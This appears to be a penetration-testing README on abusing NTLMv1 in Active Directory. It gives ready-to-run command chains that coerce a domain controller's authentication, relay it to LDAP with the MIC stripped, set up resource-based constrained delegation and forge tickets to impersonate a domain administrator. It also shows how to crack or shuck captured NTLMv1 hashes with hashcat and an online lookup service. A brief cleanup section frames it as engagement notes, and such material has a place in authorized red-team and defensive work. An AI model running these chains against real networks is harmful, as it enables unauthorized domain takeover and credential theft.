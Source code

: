 # NTLMv1

## Relaying NTLMv1

### LDAP

Its not possible to relay SMB connections to LDAP(S) unless the Message Integrity Code (MIC) is removed. As NTLMv1 does not support the MIC it is therefor possible to relay NTLMv1 coerced from SMB to LDAP(S)

### Requirements

- At least two Domain Controllers in the target Domain
- One domain controller configured with a LanMan Compatability setting at or less than '2' (Coerce Target)
- Target Domain Controller is not Windows Server 2025 (Default LDAP Signing and Binding)

#### LDAP Signing and Channel Binding
- LDAP Signing is enforced: Relay -> ```ldaps://```
- LDAP Signing is not enforced but channel binding is: Relay -> ```ldap://``` (Impacket uses StartTLS)
- **Note**: NTLMv1 does not support channel binding

#### Optional Requirements (Depends on attack vector)

#### MAQ -> RBCD -> Domain Administrator

- MAQ Greater than 0
- Account to impersonate not in "Protected Users" or "Sensitive and cant be delegated"

#### Attack Chain (MAQ -> RBCD -> Domain Administrator)

> Coerce
```bash
coercer coerce -u "USERNAME" -p "PASSWORD" -d "DOMAIN" -t "TARGET" -l "LISTENER"
```
> Relay
```
impacket-ntlmrelayx -t ldap://TARGET --remove-mic -smb2support --delegate-access
```
> RBCD
```bash
impacket-getST DOMAIN/'MACHINE$':'PASSWORD' -impersonate "ADMIN" -spn "SERVICE/TARGET FQDN" -dc-ip "DC IP"
```
> Authentication
```bash
nxc smb "TARGET" --use-kcache 
```

#### Attack Chain (Owned Computer -> RBCD -> Domain Administrator)
- Have authentication material for an owned computer ```MACHINE$```
- Account to impersonate not in "Protected Users" or "Sensitive and cant be delegated"

> Coerce
```bash
coercer coerce -u "USERNAME" -p "PASSWORD" -d "DOMAIN" -t "TARGET" -l "LISTENER"
```
> Relay
```python
impacket-ntlmrelayx -t ldap://TARGET --remove-mic -smb2support --delegate-access --escalate-user "MACHINE$" --delegate-access --no-dump --no-da --no-acl
```
> RBCD
```bash
impacket-getST DOMAIN/'MACHINE$':'PASSWORD' -impersonate "ADMIN" -spn "SERVICE/TARGET FQDN" -dc-ip "DC IP"
```
> Authentication
```bash
nxc smb "TARGET" --use-kcache 
```


#### Cleanup

- The system we coerce from has the ```msDs-AllowedToActOnBehalfOfOtherIdentity``` attribute modified to the created machine account. Ensure this is removed on engagements.
- Ensure the created machine account is removed at the end of the engagement.

```powershell
# Run in elevated PowerShell

# Clear msDS-AllowedToActOnBehalfOfOtherIdentity attribute
Get-ADComputer -Identity "DC01$" | ForEach-Object { Set-ADObject -Identity $_.DistinguishedName -Clear "msDS-AllowedToActOnBehalfOfOtherIdentity" }

# Remove Created Computer Account (If used MAQ method)
Remove-ADComputer -Identity "WSW01$"
```

## Recovering NTLMv1 Credentials

### Password Cracking
Two available recovery methods for password cracking
- Standard cracking (Wordlist / ruleset)
- Downgrade to 3DES keys and exhaust key space

#### Standard Cracking (Hashcat Mode 5500)
```
hashcat.exe -m 5500 -a 0 -O 5500.txt weakpass_4.txt -r rules\best64.rule
```
#### Downgrade to 3DES keys (Hashcat Mode 14000)
> Setup
```
python3 -m venv venv 
pip3 install pycryptodome
wget https://raw.githubusercontent.com/hashcat/hashcat-utils/refs/heads/master/src/ntlmv1.py
```
> Downgrade
```
# Downgrade
python3 ntlmv1.py --ntlmv1 Moe::SEVENKINGDOMS:535549550D915... --hashcat

# Echo contents to file
echo "535549550D915078:1122334455667788" >> 14000.hash
echo "B4F2F4334C1992E0:1122334455667788" >> 14000.hash
```
> Crack
```
# Full DES Key Space
hashcat.exe -m 14000 -a 3 -1 charsets/DES_full.hcchr --hex-charset 14000.hash ?1?1?1?1?1?1?1?1
```
### Password Shucking
If the plaintext equivalent of the NTLMv1 password is known in online lookup databases, password shucking can be performed to recover the plaintext.

- Only feasible for user account passwords

URL: https://shuck.sh/get-shucking.php

```
[+]  INPUT TOKEN                                    NT-HASH (PTH-READY)

Moe::SEVENKINGDOMS:535549550D915078B4F2...              Password123
```